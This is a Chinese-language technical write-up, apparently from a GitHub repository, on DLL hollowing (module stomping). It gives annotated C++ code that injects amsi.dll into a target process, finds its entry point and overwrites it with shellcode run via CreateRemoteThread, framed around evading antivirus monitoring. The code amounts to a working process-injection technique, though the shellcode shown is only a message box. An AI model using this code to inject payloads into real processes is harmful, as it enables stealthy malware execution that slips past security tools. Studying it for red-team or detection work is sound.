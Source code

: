 # DLL HOLLOWING / Module Stomping

## 介绍
> Process Hollowing + CreateRemoteThread() + shellcode. 三者的结合.<br>
> 是一种shellcode注入技术, 但也能用来注入完整的dll.<br >
> 感觉没啥意思, 就是比`CreateRemoteThread()`的dll注入结合shellcode结合, shellcode写入的空间是在进程加载的dll内而不是进程本身.

DLL HOLLOWING本质上是一种**shellcode注入**. 首先, 使用`CreateRemoteThread()`注入dll有个致命缺陷, 就是会在宿主机上留下恶意dll文件的痕迹, 杀毒软件可以通过监控入`windows/temp/`等目录实现对远程dll注入的拦截, 很容易被检测. 

所以结合Process Hollowing的思路, 把正常合法带微软签名的dll文件当做傀儡外壳, 把恶意shellcode写入合法dll外壳.最后把披着正常外壳的恶意代码当dll, 远程创建线程加载dll注入进目标进程.

为了防止进程出错，并不能直接镂空一个进程空间中已存在的dll，需要先对目标进程远程注入一个**系统合法dll(例如: amsi.dll)**，然后再镂空它.

### Pros & Cons
1. 不需要分配的空间是RWX memory, 也不需要更改permissions
2. shellcode是注入到正经的dll, 所以不会被监控.
	* 像注入生成的恶意dll, 是from weird places like `c:\temp\` 
	* 所以系统只需要监控`c:\temp\`便可以抓到

1. `ReadProcessMemory`/`WriteProcessMemory` API calls, 在正常程序中不常见, 只有debuggers会用, 容易被监控
	* `ReadProcessMemory`是用来读取已经加载到进程中的模块映像头, 所以可以直接不用, 在加载前, 磁盘上直接读取(手动都行).
	* `WriteProcessMemory`API可替换, 像是`NtMapViewOfSection`.



### 步骤简介

1. 远程注入一个系统dll
	* `OpenProcess`打开注入的进程
	* `CreateRemoteThread`
2. 获取该模块在目标进程中的虚拟地址
	* `EnumProcessModules` & `GetModuleBaseNameA`
3. 定位模块的入口点
	* `AddressOfEntryPoint`
4. 使用shellcode覆写入口点
	* `VirtualAlloc`
	* `WriteProcessMemory`
5. 创建远程线程
	* `CreateRemoteThread`

## 关键代码注释

### 往目标进程中注入正常dll
就是很正常的`CreateRemoteThread`. 

```
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetProcessPid(arg[1]));
InjectDll(hProcess, arg[2]))

BOOL InjectDll(HANDLE hProcess, char *DllName)
{
	LPVOID AllocMemory = VirtualAllocEx(hProcess, NULL, lstrlen(DllName) + 1, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(hProcess, AllocMemory, DllName, lstrlen(DllName) + 1, NULL);
	PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
	HANDLE hRemoteThread = NULL;
	hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, pfnStartAddr, AllocMemory, 0, NULL);
	if (hRemoteThread == NULL)
		return false;
	return true;
}
```

### 获取模块在目标进程中的基址

1. 对比shellcode编写
	* 因为是为了获取**非远程进程加载的dll基址**
	* 所以可以直接**读寄存器**找**PEB**的地址, 然后PEB里有条进程加载的**dll链表**
	* 就可以依次循环链表找目标dll
2. 对比Process hollowing
	* 目的是读取**远程进程的基址**, 因为要整个替换掉
	* 所以通过已知的**进程句柄**获取PEB, **PEB**里包含基址
3. dll hollowing
	* 目的是获取**远程进程加载的dll基址**
	* 所以理论上可以1+2
	* 但是因为不是在写1的shellcode, 所以限制解开, 有更简单的API可以直接用
	* `EnumProcessModules` & `GetModuleBaseNameA`

```
HMODULE GetModule(HANDLE hProcess, char *DllName)
{
	HMODULE hModules[256] = {};
	SIZE_T hModulesSize = sizeof(hModules);
	DWORD hModulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T hModulesCount = 0;
	CHAR rModuleName[128] = {};
	HMODULE rModule = NULL;

	EnumProcessModules(hProcess, hModules, hModulesSize, &hModulesSizeNeeded);	//目标进程句柄, 所有加载的模块组成的数组, 数组大小in bytes, 所有模块的大小总和  
	//EnumProcessModulesEx(hProcess, hModules, hModulesSize, &hModulesSizeNeeded, 3);
	cout << DllName << endl;
	hModulesCount = hModulesSizeNeeded / sizeof(HMODULE);
	cout << "Modules count" << hModulesCount << endl;

	for (int i = 0; i < hModulesCount; i++)
	{
		rModule = hModules[i];
		GetModuleBaseNameA(hProcess, rModule, rModuleName, sizeof(rModuleName));
		cout << rModule<<"  "<< rModuleName << endl;
		string::size_type idx;
		idx = string(DllName).find(rModuleName);
		if (idx != string::npos)	// exist
		{
			cout << "Find dll " << rModuleName << endl;
			break;
		}
	}
	return rModule;
}
```

### 定位模块的入口点
找到基址后, 就能根据结构找后面的Dos头和nt头, 里面就带`EntryPoint`的地址, 最后加上上面找到的基址就行.

```
// 3. get the AddressOfEnterPoint of dll
	DWORD headerBufferSize = 0x1000;
	LPVOID peHeader = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
	ReadProcessMemory(hProcess, rModule, peHeader, headerBufferSize, NULL);

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)peHeader;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)peHeader + dosHeader->e_lfanew);
	LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)rModule);	//模块entrypoint偏移+模块的基址
	cout << "dllEntryPoint is "<<dllEntryPoint << endl;
```

### shellcode覆写dll代码

```
// 4. write shellcode to DLL's AddressofEntryPoint
WriteProcessMemory(hProcess, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);
```

### 创建远程线程执行shellcode
不用这步也行, 因为shellcode已经写入dll文件了, 关掉进程的时候也会执行.

```
// 5. execute shellcode from inside the benign DLL
CreateRemoteThread(hProcess, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);
```

## 结果演示
用命令行启动, `arg[1]=ProcessName(DingTalk.exe), arg[2]=DllRoute(C:/windows/system32/amsi.dll) `.<br>shellcode是一段最基础的弹窗.

如下图所示, `amsi.dll`EntryPoint为`0x0927A0F0`, 用调试器看注入到进程里的这个dll的内容, 发现已经被修改成注入的shellcode.

![](Dll_Hollowing/result-3.jpg)

## Reference

1. 生成和server通信的后门shellcode.[https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
)
2. [https://idiotc4t.com/code-and-dll-process-injection/dll-hollowing](https://idiotc4t.com/code-and-dll-process-injection/dll-hollowing)
3. [https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection](https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection)